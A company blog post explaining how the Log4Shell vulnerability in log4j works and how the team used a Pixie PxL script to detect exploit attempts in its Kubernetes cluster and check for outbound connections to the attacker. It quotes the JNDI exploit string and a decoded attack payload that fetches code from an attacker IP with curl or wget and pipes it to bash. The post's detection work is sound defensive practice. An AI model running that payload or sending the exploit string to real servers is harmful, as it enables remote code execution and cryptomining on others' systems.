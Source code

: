 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```


_Are your [services impacted](https://www.lunasec.io/docs/blog/log4j-zero-day/#who-is-impacted) by this exploit? If so, start with the [mitigation](https://www.lunasec.io/docs/blog/log4j-zero-day/#permanent-mitigation) first._

Earlier today, [news](https://www.lunasec.io/docs/blog/log4j-zero-day/) broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?

In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this [PxL script](https://docs.px.dev/tutorials/pxl-scripts/) which checks for instances of the `Log4Shell` exploit:

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

[log4j only needs to log a string like](https://www.lunasec.io/docs/blog/log4j-zero-day/#example-vulnerable-code) `${jndi:ldap://127.0.0.1/a}` to request and eventually execute a returned payload. [Pixie traces all the HTTP requests](https://docs.px.dev/about-pixie/data-sources/) in your Kubernetes cluster, and stores them for future querying. So in our script, we simply search over the `http_events` table for requests that contain the attack signature -  the `${jndi` string.

Running the script on our cluster, we immediately noticed some `Log4Shell` traffic:

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the '${jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

The exploit requests were hitting our public cloud-proxy service, where the User-Agent included the exploit string. In this case, the attacker hopes that we use log4j to log the User-Agent value. We investigated the originating IP address, `45.155.205.233` and discovered that it was based in Russia.

Another team member, Vihang, then figured out that the payload of the exploit string is the following:

```bash
$ base64 -d <<< "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0Myl8YmFzaA=="
(curl -s 45.155.205.233:5874/34.102.136.58:443||wget -q -O- 45.155.205.233:5874/34.102.136.58:443)|bash%
```

The situation around the `Log4Shell` exploit is still evolving, but [tweets](https://twitter.com/GossiTheDog/status/1469322120840708100) indicate that this payload contains a Bitcoin miner.

## Are we leaking?

Now we know that some attacker tried to scan us with the `Log4Shell` exploit. Our next question was whether the attacker succeeded. Again, Pixie doesn’t rely on Java services, but we did want to know how a Java user could detect a successful attack.

A successful exploit requires the attacker to “phone home” with sensitive information, so we need to check if any connections were made back to the `45.155.205.233` IP that we found in the attack.

We can use Pixie’s existing `px/outbound_conns` script to check for this. This script shows a list of connections from our pods made to endpoints outside the k8s cluster. This script has an optional IP filter field that we populate to see if any connections (regardless of protocol) are made to that IP.

In this case, when we run the script, we see that we have no such connections, as expected:

<svg title="Using the `px/outbound_conns` script to check for all outbound connections from our pods, filtered by the IP address of the attacker shows that no connections were returned to the attacking IP." src='checking-outbound-connections.png' />

While we caught no such instances, for a user who was using Java, any outbound connections to the attacker would be recorded.

## Check if your cluster is being attacked

When a 0-day exploit is published, there’s a rush by attackers to take advantage. At the same time, developers of cloud services are scrambling to see if they are exposed and to patch any vulnerabilities.

To quickly check if your cluster is being attacked, you can:

1. [Install Pixie](https://docs.px.dev/installing-pixie/install-guides/) on your Kubernetes cluster.
2. Save the following script as `log4shell.pxl`.

```bash
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

3. Run the custom PxL script using Pixie’s [Live CLI](https://docs.px.dev/using-pixie/using-cli/#use-the-live-cli), using the -f flag to provide the script’s filename:

```bash
px live -f <path to script>/log4shell.pxl
```

If you discover that you are being attacked, you can read about mitigation steps [here](https://www.lunasec.io/docs/blog/log4j-zero-day).

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
